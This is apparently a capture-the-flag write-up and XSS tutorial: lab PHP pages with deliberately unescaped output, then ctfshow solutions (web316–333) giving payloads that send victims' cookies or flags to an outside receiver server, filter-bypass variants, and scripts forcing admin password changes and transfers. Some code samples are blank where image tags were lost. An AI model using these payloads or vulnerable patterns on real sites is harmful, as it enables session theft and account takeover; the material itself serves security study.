



## XSS basics

XSS (Cross-Site Scripting) refers to an attacker inserting scripts such as JavaScript into a web page so that they execute in other users' browsers, achieving goals like stealing information or impersonating user actions.

Below, using a self-hosted environment, I demonstrate reflected XSS, stored XSS, and DOM-based XSS.

### 1. Reflected XSS

Reflected XSS is characterized by user-submitted content being written directly into the current response by the server, but usually not stored long-term on the server.

Demo code:

```php
<?php
header("Content-Type: text/html; charset=UTF-8");
header("X-Robots-Tag: noindex, nofollow");

if (!isset($_GET["input"])) {
    highlight_file(__FILE__);
    exit;
}

$input = $_GET["input"];
?>

<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>反射型 XSS</title>
</head>
<body>

<h1>反射型 XSS 演示</h1>

<p>用户输入：</p>

<div>
    <?php
    // 故意不进行 HTML 编码，用来演示反射型 XSS
    echo $input;
    ?>
</div>

<p><a href="/attack/">返回首页</a></p>

</body>
</html>
```

Normal access:

```text
http://8.148.31.22/attack/xsstest.php?input=1
```

The page shows "User input: 1".

If you access:

```text
http://8.148.31.22/attack/xsstest.php?input=<script>alert("test")</script>
```

The page executes the JavaScript passed in and pops up a dialog.

### 2. Stored XSS

The malicious content of stored XSS is saved in persistent storage on the server, such as a database. When other users visit the relevant page, the server outputs the content again and the script executes along with it.

Demo code:

```php
<?php
header("Content-Type: text/html; charset=UTF-8");
header("X-Robots-Tag: noindex, nofollow");

mysqli_report(MYSQLI_REPORT_ERROR | MYSQLI_REPORT_STRICT);

$config = require "/etc/xss-lab-db.php";
$notice = "";

try {
    $conn = new mysqli(
        $config["host"],
        $config["username"],
        $config["password"],
        $config["database"],
        $config["port"]
    );

    $conn->set_charset("utf8mb4");

    if ($_SERVER["REQUEST_METHOD"] === "POST") {
        $username = $_POST["username"] ?? "";
        $message = $_POST["message"] ?? "";

        if (trim($username) === "" || trim($message) === "") {
            $notice = "请填写完整信息";
        } elseif (
            mb_strlen($username, "UTF-8") > 100 ||
            mb_strlen($message, "UTF-8") > 2000
        ) {
            $notice = "输入内容过长";
        } else {
            // 使用预处理语句防止 SQL 注入
            $stmt = $conn->prepare(
                "INSERT INTO message (username, message) VALUES (?, ?)"
            );

            $stmt->bind_param("ss", $username, $message);
            $stmt->execute();

            header("Location: /attack/stored.php");
            exit;
        }
    }

    $result = $conn->query(
        "SELECT id, username, message
         FROM message
         ORDER BY id DESC"
    );
} catch (mysqli_sql_exception $e) {
    error_log($e->getMessage());
    http_response_code(500);
    exit("数据库连接或查询失败");
}
?>

<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>存储型 XSS</title>

    <style>
        body {
            max-width: 800px;
            margin: 40px auto;
            font-family: sans-serif;
        }

        input,
        textarea {
            box-sizing: border-box;
            width: 100%;
            margin: 8px 0;
            padding: 10px;
        }

        textarea {
            min-height: 100px;
        }

        .message {
            margin: 16px 0;
            padding: 15px;
            border: 1px solid #ccc;
        }
    </style>
</head>
<body>

<h1>留言板的存储型 XSS</h1>

<?php if ($notice !== ""): ?>
    <p>
        <?= htmlspecialchars(
            $notice,
            ENT_QUOTES | ENT_SUBSTITUTE,
            "UTF-8"
        ) ?>
    </p>
<?php endif; ?>

<form method="post">
    <input
        type="text"
        name="username"
        maxlength="100"
        placeholder="姓名"
        required
    >

    <textarea
        name="message"
        maxlength="2000"
        placeholder="请输入留言"
        required
    ></textarea>

    <button type="submit">提交留言</button>
</form>

<hr>

<?php if ($result->num_rows === 0): ?>

    <p>暂无留言</p>

<?php else: ?>

    <?php while ($row = $result->fetch_assoc()): ?>
        <div class="message">
            <p>
                <strong>用户名：</strong>

                <?= htmlspecialchars(
                    $row["username"],
                    ENT_QUOTES | ENT_SUBSTITUTE,
                    "UTF-8"
                ) ?>
            </p>

            <p><strong>留言内容：</strong></p>

            <div>
                <?php
                // 故意不编码，用来演示存储型 XSS
                echo $row["message"];
                ?>
            </div>
        </div>
    <?php endwhile; ?>

<?php endif; ?>

<p><a href="/attack/">返回首页</a></p>

</body>
</html>
```

In the message content, enter:

```html
<script>alert("test")</script>
```

After submitting, every visit to the page re-reads and outputs this content, so the browser executes the JavaScript in it and pops up a dialog.

### 3. DOM-based XSS

DOM-based XSS occurs during the browser-side JavaScript's manipulation of the DOM, rather than the server writing the malicious content directly into the response page.

The DOM is the object structure formed after the browser parses the HTML. JavaScript can modify page content through the DOM. If the content written to `innerHTML` comes from unsanitized user input, XSS can occur:

```javascript
const input = document.getElementById("src").value;
document.getElementById("demo").innerHTML =
    "";
```

An attacker can input:

```text
x' onerror='alert("DOM-XSS")
```

The browser ultimately parses this into:

```html

```

After the image `x` fails to load, `onerror` is triggered, and the JavaScript in it executes.

Full demo code:

```html
<!DOCTYPE html>
<html lang="zh-CN">
<head>
    <meta charset="UTF-8">
    <title>DOM 型 XSS</title>
</head>
<body>

<h1>DOM 型 XSS 演示</h1>

<input
    type="text"
    id="src"
    size="50"
    placeholder="输入图片地址"
>

<input
    type="button"
    value="插入"
    onclick="xss()"
>

<br><br>

<div id="demo"></div>

<script>
    function xss() {
        const str = document.getElementById("src").value;

        // 故意使用 innerHTML 拼接用户输入
        document.getElementById("demo").innerHTML =
            "";
    }
</script>

<p><a href="/attack/">返回首页</a></p>

</body>
</html>
```

Entering the following triggers the popup:

```text
1' onerror='alert("test")
```

## ctfshow solutions

### Reflected XSS

#### web316

Write a PHP script that receives a GET parameter. When the challenge's backend bot visits a page containing an XSS payload, it can send the bot's information to your own server.

Receiver script:

```php
<?php
$content = $_GET["1"] ?? null;

if ($content === null || !is_string($content)) {
    exit("no input");
}

$file = __DIR__ . "/1.txt";
$result = file_put_contents($file, $content, LOCK_EX);

if ($result === false) {
    http_response_code(500);
    exit("write failed");
}

echo "write success: {$result} bytes";
?>
```

First test the receiver script:

```text
http://8.148.31.22/attack/1.php?1=test
```

Once the page shows a successful write, submit the payload for stealing the Cookie:

```html
<script>document.location.href="http://8.148.31.22/attack/1.php?1="+document.cookie</script>
```

You can also use:

```html
<script>window.open("http://8.148.31.22/attack/1.php?1="+document.cookie)</script>
```

#### web317–319

The challenge filters the `<script>` tag, so you can switch to the event attributes of other tags.

Using `<body>`'s `onload`:

```html
<body onload="window.location.href='http://8.148.31.22/attack/1.php?1='+document.cookie"></body>
```

You can also use the following. `btoa()` is used to Base64-encode a string.

Using ``'s `onerror`:

```html

```

Here, `src=x` causes the image to fail to load, which then triggers the JavaScript in `onerror`.

Using `<svg>`'s `onload`:

```html
<svg onload="location.href='http://8.148.31.22/attack/1.php?1='+btoa(document.cookie)"/>
```

Using `<iframe>`'s `onload`:

```html
<iframe onload="document.location='http://8.148.31.22/attack/1.php?1='+document.cookie"></iframe>
```

#### web320–321

The challenge filters spaces, so you can exploit differences in how browsers parse tags, using `/**/` as the separator between the tag name and the attribute:

```html
<svg/**/onload="location.href='http://8.148.31.22/attack/1.php?1='+btoa(document.cookie)"/>
```

You can also use `document.write()` to write content dynamically, and use `String.fromCharCode()` to restore ASCII codes into a string, constructing a `<script>` tag:

```html
<body/**/onload=document.write(String.fromCharCode(60,115,99,114,105,112,116,62,100,111,99,117,109,101,110,116,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,39,104,116,116,112,58,47,47,56,46,49,52,56,46,51,49,46,50,50,47,97,116,116,97,99,107,47,49,46,112,104,112,63,49,61,39,43,98,116,111,97,40,100,111,99,117,109,101,110,116,46,99,111,111,107,105,101,41,60,47,115,99,114,105,112,116,62));>
```

The following Python script converts a string into comma-separated ASCII codes:

```python
input_str = input("请输入字符串：")
ascii_list = []

for char in input_str:
    ascii_code = ord(char)
    ascii_list.append(str(ascii_code))

result = ",".join(ascii_list)
print("转换后的 ASCII 码：", result)

# 输入示例：
# <script>document.location.href='http://8.148.31.22/attack/1.php?1='+btoa(document.cookie)</script>
```

#### web322–326

The challenge adds filtering for spaces, commas, and content like `xss`. After adjusting the location of the receiver script, the following payload still works:

```html
<svg/**/onload="location.href='http://8.148.31.22/attack/1.php?1='+btoa(document.cookie)"/>
```

You can also use `onfocus`, which triggers after the element gains focus:

```html
<input/**/onfocus="location.href='http://8.148.31.22/attack/1.php?1='+document.cookie">
```

Reference: [related FreeBuf article](https://www.freebuf.com/articles/web/340080.html)

### Stored XSS

#### web327

The recipient must be `admin`; there's no obvious filtering elsewhere, so you can submit:

```html
<svg/**/onload="location.href='http://8.148.31.22/attack/1.php?1='+btoa(document.cookie)"/>
```

#### web328

After entering the challenge, you can see register, login, user management, and logout functions, but the user management page is only accessible to the administrator.

You can write malicious code into the username or password field during registration so that it's stored on the server. When the administrator enters the user management page, the page outputs and executes this code, sending the administrator's Cookie to the receiver server. You can then replace the Cookie in Burp Suite and replay the request to access the user management page as the administrator.

Payload:

```html
<script>new Image().src="http://8.148.31.22/attack/1.php?1="+btoa(document.cookie);</script>
```

Captured result:



#### web329

Although this challenge lets you obtain the Cookie, the Cookie expires quickly, too fast to manually enter the user management page. So instead of exfiltrating the Cookie, you can have the administrator's browser search directly within the user management page and exfiltrate the Flag.

Payload:

```html
<script>$('.layui-table-cell').each(function(index,value){if(value.innerHTML.indexOf('ctfshow')>-1){window.open('http://8.148.31.22/attack/1.php?1='+encodeURIComponent(value.innerHTML));}});</script>
```

Let me analyze this payload part by part.

Using the developer tools, you can see that the elements used to display user information on the user management page use the `layui-table-cell` class:



First, use jQuery to select all elements whose `class` contains `layui-table-cell`:

```javascript
$(".layui-table-cell")
```

Then use `each()` to iterate over each matching element:

```javascript
.each(function (index, value) {
    // ...
});
```

Where:

- `index` is the index of the current element.
- `value` is the DOM element corresponding to the current cell.

Next, check whether the current cell's HTML content contains the string `ctfshow`:

```javascript
value.innerHTML.indexOf("ctfshow") > -1
```

`indexOf()` returns `0` or a larger index when it finds the target string, and `-1` when it doesn't. So the condition `> -1` means a Flag like the following has been found:

```text
ctfshow{xxxxxxxx}
```

Once found, execute:

```javascript
window.open(
    "http://8.148.31.22/attack/1.php?1=" +
    encodeURIComponent(value.innerHTML)
);
```

This opens a new window and sends the encoded cell content as the GET parameter `1` to the receiver server.

Suppose the cell content is:

```text
ctfshow{test_flag}
```

The browser then visits an address like:

```text
http://8.148.31.22/attack/1.php?1=ctfshow%7Btest_flag%7D
```

PHP automatically parses the URL encoding, so the Flag can be read in the receiver file.

#### web330

This challenge adds a change-password function. After capturing the request, you can see that the page submits the new password to `/api/change.php` via the GET parameter `p`:



So you can have the administrator's browser access this endpoint to change the administrator's password directly to `123456`:

```html
<script>document.location.href="/api/change.php?p=123456"</script>
```

The relative path used here starts with `/`, so the request is automatically sent to the current challenge site, without needing to hardcode the domain.

After the administrator's browser executes the payload, you can log into the administrator account with the new password and then view the response of `manager.php` to get the Flag.

#### web331

The change-password endpoint now receives its parameter via POST, so you can use jQuery's `$.ajax()` to send an asynchronous POST request:

```html
<script>$.ajax({url:"/api/change.php",type:"post",data:{p:123456}});</script>
```

Where:

- `url`: the relative path of the request, `/api/change.php`.
- `type`: the request method, `POST`.
- `data`: the submitted parameter `p=123456`.

#### web332–333

The challenge adds transfer and Flag-purchase functions. Capturing the request, you can see that a transfer sends a POST request to `/api/amount.php` with the parameters:

- `u`: the receiving account.
- `a`: the transfer amount.

For example, to transfer `9999` to the account `test123`:

```html
<script>$.ajax({url:"/api/amount.php",type:"post",data:{u:"test123",a:9999}});</script>
```

After the administrator's browser executes it, a transfer is initiated to the specified account as the administrator, after which you can use the account balance to buy the Flag.